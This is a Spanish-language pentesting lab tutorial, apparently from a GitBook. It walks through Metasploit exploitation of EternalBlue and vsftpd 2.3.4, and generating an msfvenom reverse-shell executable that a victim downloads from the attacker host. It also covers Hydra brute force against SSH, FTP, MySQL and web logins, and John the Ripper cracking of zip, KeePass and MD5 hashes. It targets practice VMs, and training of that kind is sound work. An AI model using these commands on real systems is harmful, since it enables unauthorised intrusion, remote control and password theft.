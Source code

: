 ```yaml
---
icon: '3'
---
```


# Explotación de Vulnerabilidades y Ataques de Fuerza Bruta

## Enlace Alternativo de Descarga de los Laboratorios

{% embed url="https://drive.google.com/drive/folders/1EOkfWHycCEsO2QU6DHhloN7pnDAu6-vg" %}

## Uso Básico de Metasploit – Explotación EternalBlue en Windows

**EternalBlue** es una vulnerabilidad en SMBv1 de Windows (CVE-2017-0143), aprovechada por malware como WannaCry. A continuación, te muestro cómo explotar esta vulnerabilidad usando Metasploit:

```bash
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit EternalBlue (CVE-2017-0143)
search eternalblue/CVE-2017-0143

# 3. Seleccionar el exploit encontrado
use 0

# 4. Mostrar las opciones disponibles del módulo
show options

# 5. Configurar la dirección IP de la máquina víctima
set RHOSTS <IP de la máquina víctima>

# 6. Ejecutar el exploit
run
```

Este exploit aprovecha una vulnerabilidad crítica en SMBv1, permitiendo ejecución remota de código en sistemas no parcheados.

## Uso Básico de Metasploit – Explotación vsftpd en Linux

#### Reconocimiento

```bash
arp-scan -I eth0 --localnet
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn <IP máquina atacante> -oN escaneo
nmap --script "vuln" -p21 <IP máquina víctima> 
```

#### Explotación

```bash
search vsFTPd 2.3.4
use 0
show options
set RHOSTS <IP máquina víctima> 
run
```

## Msfvenom – Generar Nuestros Propios Payloads

En este ejemplo, creamos un payload malicioso con `msfvenom`, lo servimos con un servidor HTTP simple, y luego utilizamos el módulo **Multihandler** en Metasploit para manejar la conexión reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP máquina atacante> LPORT=443 -f exe -o pwned.exe
```

* `-p windows/x64/meterpreter/reverse_tcp`: Especifica el payload `meterpreter/reverse_tcp` para Windows de 64 bits.
* `LHOST=<IP máquina atacante>`: La dirección IP de la máquina atacante (donde recibiremos la conexión).
* `LPORT=443`: El puerto donde la víctima se conectará.
* `-f exe`: Formato de salida `.exe`.
* `-o pwned.exe`: El nombre del archivo generado.

Para hacer que la víctima descargue el payload, utilizamos un servidor HTTP en la máquina atacante.

```bash
python3 -m http.server 80
```

* Este comando inicia un servidor HTTP en el puerto 80.

En la máquina víctima, abrimos un navegador o usamos una utilidad como `wget` o `curl` para descargar el archivo ejecutable servido en la máquina atacante:

```bash
# Descargar desde la máquina víctima 
wget http://<IP máquina atacante>/pwned.exe
```

Ahora, configuramos **Metasploit** para manejar la conexión del **payload**.

```bash
# Iniciar msfconsole
msfconsole

# 1. Usar el módulo Multihandler
use exploit/multi/handler

# 2. Mostrar opciones
show options

# 3. Configurar el payload utilizado por el Multihandler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 4. Configurar el puerto LPORT (debe coincidir con el que usamos en msfvenom, 443 en este caso)
set LPORT 443

# 5. Configurar la dirección IP de la máquina atacante
set LHOST <IP máquina atacante>

# 6. Ejecutar el handler
run
```

Este proceso nos permite obtener una sesión `meterpreter` una vez que el archivo malicioso es ejecutado en la máquina de la víctima.

## Uso de Hydra – Ataques de Fuerza Bruta a Contraseñas (SSH y FTP)

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly3" %}

```
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt ssh://<IP máquina víctima>
```

```bash
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt ftp://<IP máquina víctima>
```

## Uso de Hydra – Ataques de Fuerza Bruta a Usuarios (SSH y FTP)

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://<IP máquina víctima>
```

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://<IP máquina víctima>
```

## Fuerza Bruta a Paneles de Login Web

{% embed url="https://vulnyx.com/#blog" %}

En BurpSuite, primero en ajustes en la parte de conexión de proxy debemos configurarlo así.

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

Ahora ya podemos interceptar la conexión. Le damos a Intercept is off. Ponemos la contraseña y al darle a enviar revisamos que interceptó las credenciales.

```
hydra -t 64 -l admin -P <diccionario> <ip> http-post-form “/my_weblog/admin.php:username=admin&password=^PASS^:Incorrect”
```

## Ataques de Fuerza Bruta con Metasploit

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly3" %}

```
search ftp_login
use 0
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME <usuario>
set RHOSTS <IP máquina víctima>
run
```

```bash
search ssh_login
use 0
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME <usuario>
set RHOSTS <IP máquina víctima>
run
```

## Ataques de Fuerza Bruta contra Bases de Datos

{% embed url="https://drive.google.com/file/d/1kJsjmttn7McRuj8Tx71ootLMnTnaIWo4/view?usp=sharing" %}

```bash
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt mysql://<IP máquina víctima>
```

A veces las contraseñas suelen estar al final del diccionario `rockyou.txt` por lo que realizamos:

```
tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
```

> Nota: Revisar el archivo por si acaso

Mejoramos el diccionario para hacerlo más ordenado.

```bash
cat rockyou_invertido.txt | tr -d ' ' > diccionario_sin_espacios.txt
```

```bash
hydra -l <usuario> -P diccionario_sin_espacios.txt mysql://<IP máquina víctima>
```

Nos conectamos a **MySQL**.

```bash
mysql -h <IP máquina víctima> -u <usuario> -p<contraseña> 
```

```bash
show databases;
use <database>;
show tables;
SELECT * FROM users;
```

## Ataques de Fuerza Bruta en Local con John The Ripper

```bash
zip2john archivo.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Si es un archivo **.kdbx**.

```bash
keepass2john Database.kdbx > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

Si es un **hash**.&#x20;

```bash
apt install hash-identifier
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
